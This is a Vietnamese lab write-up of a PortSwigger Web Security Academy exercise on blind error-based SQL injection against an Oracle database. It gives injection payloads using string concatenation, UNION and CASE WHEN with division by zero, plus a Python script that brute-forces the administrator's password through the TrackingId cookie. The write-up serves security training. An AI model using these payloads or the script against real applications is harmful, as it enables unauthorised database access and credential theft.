 ![image](https://github.com/user-attachments/assets/17bdd62e-7b83-4c20-8276-1fc07726fa49)

![image](https://github.com/user-attachments/assets/cc16552d-8149-42d8-b223-26335cc24fe9)

Sau khi test với nháy đơn thì xác định được ứng dụng bị sqli.

![image](https://github.com/user-attachments/assets/276c23ac-c98d-41f9-9684-2fb3b904894c)

Thử câu truy vấn hợp lệ nhưng không có tác dụng thực tế và nó vẫn báo lỗi, tức là khả năng bị sai, có thể là thiếu table.

Thử xem, ví dụ như dbms mssql, sql server xem, select schema table chẳng hạn. Nhưng cho nhanh thì tôi sẽ thử các cái nổi nổi như mysql, oracle nhất.

![image](https://github.com/user-attachments/assets/a14a1663-c0b3-477c-a2cc-4a84e570ed0d)

Đúng thật sau khi thử thì ta biết chắc chắn sqli này là oracle.

Nhưng tại sao phải dùng `||` nhỉ ?? Liệu có thể dùng cái khác không ???. Thì câu trả lời sẽ là có thể. dùng || để như trong trường hợp waf nó chặn union chẳng hạn. Và `||` trong trường hợp này là nó dùng để nối chuỗi mà thì cũng tương đương với mực đích dùng union thôi.

Tiến hành dùng union xem sao nhé.

![image](https://github.com/user-attachments/assets/581ccd39-a4a3-4388-844c-f21c5da5d196)

Đó đã thành công rồi kìa.

2 Payload tương đương

```
'||(SELECT+''+from+dual)||'
'union+select+''+from+dual--
```

![image](https://github.com/user-attachments/assets/6d89c50a-1e7e-409f-964f-0b130eef7373)

Chứng tỏ sqli đã được thực thi.

Tiếp theo chúng ta sẽ đoán tên column và khai thác sqli này là Error-Based SQL Injection

Và tôi sẽ dùng cách này để tấn công, theo đúng format của oracle nhé

```
CASE WHEN ... THEN ... ELSE ... END.
```

![image](https://github.com/user-attachments/assets/1be24ad2-7462-4866-b6bb-29161b76239e)

Đi từ đầu câu truy vấn nhé, bạn có thể thấy rằng case nó như switch case trong c++ hay các ngôn ngữ lập trình khác á.

Thì nó gặp 1=1 tức là đúng thì nó sẽ đến then và nó gặp 1/0, thì lại sai vì không thể chia cho 0. Khi đó nó sẽ bắn ra lỗi.

![image](https://github.com/user-attachments/assets/6752d0a1-f8e8-4b54-8428-6c5aa34e9d13)

Còn khi mà 1=2 thì nó sẽ nhảy đến else luôn.

Đó thì ta lợi dụng cách này để đoán ra tên column. 

**Và lưu ý nhé, nếu không có dữ liệu để chạy CASE, thì CASE không chạy luôn.**

Thì đó mới là nguyên nhân ta biết đoán được dựa trên error nhé, chứ không phải là case -> then luôn đâu, nó sẽ check xem column đó có tồn tại hay k đấy.

![image](https://github.com/user-attachments/assets/5e88fa01-a3c9-442e-b931-53c5e6949a41)

![image](https://github.com/user-attachments/assets/58cca1fa-1930-4f5b-ab3b-391f2551e558)

Vậy là ta đã check được passwd có 20 ký tự nhé.

![image](https://github.com/user-attachments/assets/36682a9b-ba5c-4697-b7de-36885c3068ae)

Payload:

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Cách thứ 2 là tôi sẽ viết script

```
import requests
import string

# Cấu hình request
URL = "https://0a1e004903ddf4658108ed5b007e00bb.web-security-academy.net/filter?category=Gifts"
COOKIES = {
    "session": "FX2cnYUNTlQ3tFoLzudHsZC57WVSbHMc"
}
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36",
    "Referer": "https://0a1e004903ddf4658108ed5b007e00bb.web-security-academy.net/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": '"Chromium";v="125", "Not.A/Brand";v="24"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document"
}

# Bộ ký tự cần thử: a-z, A-Z, 0-9
CHARSET = string.ascii_letters + string.digits


def is_correct_guess(response):
    """ Kiểm tra nếu server trả về lỗi 500 (chia cho 0). """
    return response.status_code == 500


def brute_force_password():
    password = ""

    for i in range(1, 50):  # Giả sử password có tối đa 50 ký tự
        found = False
        for char in CHARSET:
            # Inject SQL để kiểm tra ký tự thứ i của password
            payload = f"jjb6UlCHrlZ1SHBB'||(SELECT CASE WHEN SUBSTR(password,{i},1)='{char}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
            cookies = COOKIES.copy()
            cookies["TrackingId"] = payload

            print(f"[*] Đang thử ký tự thứ {i}: {char}")  # Debug

            response = requests.get(URL, cookies=cookies, headers=HEADERS)

            if is_correct_guess(response):
                password += char
                print(f"[+] Ký tự đúng: {char} --> {password}")
                found = True
                break
        
        if not found:
            print(f"[*] Password hoàn chỉnh: {password}")
            break

    return password


# Chạy script
final_password = brute_force_password()
print(f"Password cuối cùng: {final_password}")

```

![image](https://github.com/user-attachments/assets/beaa9312-b17a-43fb-b537-bb705702b78e)

Vậy là đã thành công.

![image](https://github.com/user-attachments/assets/b1c2cb10-453b-4386-9a3a-a830b8376038)
